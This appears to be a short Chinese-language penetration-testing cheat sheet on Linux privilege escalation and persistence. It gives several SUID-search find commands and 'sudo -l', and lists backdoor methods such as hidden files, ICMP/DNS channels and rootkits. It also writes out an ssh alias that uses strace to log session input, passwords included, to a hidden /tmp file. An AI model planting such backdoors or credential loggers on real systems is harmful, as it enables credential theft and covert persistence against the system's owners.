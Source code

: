 持久化 - Linux
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \;``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户
- 常见应用
    - ICMP
    - DNS
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit
